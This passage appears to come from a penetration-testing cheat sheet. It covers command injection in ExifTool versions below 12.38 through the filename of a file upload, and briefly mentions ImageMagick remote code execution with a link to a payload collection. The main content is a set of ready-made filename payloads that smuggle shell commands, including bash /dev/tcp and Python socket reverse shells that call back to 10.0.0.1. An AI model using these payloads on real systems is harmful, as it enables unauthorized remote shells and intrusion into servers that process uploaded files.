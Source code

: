 - **Command Injection (Exiftool version < 12.38)**

    Reference: [https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)  

    We can inject OS command in the filename in POST data when uploading.

    ```bash
    # Ping
    filename="touch test; ping -c 1 10.0.0.1 |"
    # Reverse shell
    filename="touch test; bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 |"
    filename="touch test; bash -c \"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\" |"
    filename="touch test; python3 -c 'import socket,os,pty;s=socket.socket();s.connect((\"10.0.0.1\", 1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"bash\")' |"
    ```

### ImageMagick

[ImageMagick](https://www.imagemagick.org/) is vulnerable to remote code execution so we can run reverse shell.  
The payloads can be used [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik).